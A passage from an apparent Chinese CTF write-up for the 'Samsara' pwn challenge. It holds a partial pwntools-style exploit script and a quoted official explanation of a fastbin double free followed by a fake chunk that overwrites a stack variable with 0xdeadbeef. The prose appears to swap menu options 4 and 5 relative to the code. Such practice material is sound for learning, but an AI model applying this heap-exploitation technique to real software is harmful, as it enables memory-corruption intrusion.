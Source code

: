 ```python
    sla('Index:\n',str(index))
    sla('Ingredient:\n',str(data))

def show():
    sla('choice > ','4')
    ru('Your lair is at: ')
    return eval(rc(14))

def move(data):
    sla('choice > ','5')
    sla('Which kingdom?\n',str(data))

def commit():
    sla('choice > ','6')

ptr = show()
info_addr('ptr',ptr)
move(0x21)

capture() # 0
capture() # 1
capture() # 2

eat(0)
eat(1)
eat(0)

# debug()
capture()   # 3
cook(0,ptr-0x8) 
capture()   # 4
capture()   # 5 
capture()   # 6 
cook(6,0xdeadbeef)

commit()

p.interactive()
```



### 官方wp

官方wp讲解的很详细啊，摘录过来：D

> 逆向可以知道每次抓人都执行`malloc(8)`，我们不能控制分配的大小。那么在释放的时候，chunk必定进入fastbin。操作3就是编辑chunk的内容，不存在溢出。但是这题有两个奇怪的操作：输入4会打印出栈上变量`lair`的位置，输入5会改变`lair`的值。最后，退出程序时，检查栈上变量`target`是否等于`0xdeadbeef`，如果等于就能getflag，但是整个程序中不存在对`target`的任何读写操作。
>
> 漏洞点在于`free`之后没有置指针为NULL，考虑`double free`。首先分配三个chunk，按`chunk0->chunk1->chunk0`的顺序释放，第二次释放`chunk0`时它不在对应fastbin的头部，因此不会被检测到。再申请两次分别得到`chunk3`和`chunk4`，按first-fit原则前者即`chunk0`，后者即`chunk1`，但此时`chunk0`依然会留在fastbin中。
>
> 接下来，我们在`target`附近伪造chunk。我们逆向发现`lair`在`target`上方8B处，因此先输入4，设置`lair=0x20`以伪造`chunk_size`。然后输入5得到`&lair`，那么`&lair-8`处就是伪造的chunk的chunk指针。伪造好以后，我们向`chunk3`即`chunk0`的`fd`写入`&lair-8`。此时，fastbin内就变成了`chunk0->fake_chunk`，申请一次得到`chunk0`，第二次得到`fake_chunk`。
>
> 此时向`fake_chunk`写数据，等价于向`(&lair-8) + 0x10`也就是`target`写数据，写入`0xdeadbeef`并退出程序即可。
>
> ref: [Samsara](https://github.com/SignorMercurio/MetasequoiaCTF/tree/master/Pwn/Samsara)

